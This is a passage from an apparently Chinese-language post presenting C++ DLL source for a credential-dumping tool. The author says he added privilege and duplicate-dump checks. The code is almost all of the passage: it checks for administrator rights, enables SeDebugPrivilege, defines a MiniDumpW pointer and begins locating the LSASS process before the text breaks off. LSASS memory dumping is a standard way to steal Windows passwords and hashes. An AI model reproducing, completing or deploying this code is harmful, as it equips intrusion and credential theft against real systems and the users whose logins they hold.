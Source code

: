 为了避免类似的风险情况，我增加了权限判断、重复转储判断：

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#pragma comment( lib, "Dbghelp.lib" )
#define _CRT_SECURE_NO_WARNINGS

typedef HRESULT(WINAPI* _MiniDumpW)(DWORD arg1, DWORD arg2, PWCHAR cmdline);

BOOL CheckPrivilege() {
    BOOL state;
    SID_IDENTIFIER_AUTHORITY NtAuthority = SECURITY_NT_AUTHORITY;
    PSID AdministratorsGroup;
   
    state = AllocateAndInitializeSid(
        &NtAuthority,
        2,
        SECURITY_BUILTIN_DOMAIN_RID,
        DOMAIN_ALIAS_RID_ADMINS,
        SECURITY_LOCAL_SYSTEM_RID, DOMAIN_GROUP_RID_ADMINS,0, 0, 0, 0,
        &AdministratorsGroup);
    if (state)
    {
        if (!CheckTokenMembership(NULL, AdministratorsGroup, &state))
        {
            state = FALSE;
        }
        FreeSid(AdministratorsGroup);
    }

    return state;
}

BOOL EnableDebugPrivilege()
{
    
    HANDLE hThis = GetCurrentProcess();
    HANDLE hToken;
    OpenProcessToken(hThis, TOKEN_ADJUST_PRIVILEGES, &hToken);
    LUID luid;
    LookupPrivilegeValue(0, TEXT("seDebugPrivilege"), &luid);
    TOKEN_PRIVILEGES priv;
    priv.PrivilegeCount = 1;
    priv.Privileges[0].Luid = luid;
    priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    BOOL isEnabiled = AdjustTokenPrivileges(hToken, false, &priv, sizeof(priv), 0, 0);
    if (isEnabiled) {
        CloseHandle(hToken);
        CloseHandle(hThis);
        return TRUE;
    }
    return FALSE;
}

DWORD GetLsassPID() {
    DWORD lsassPID = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
```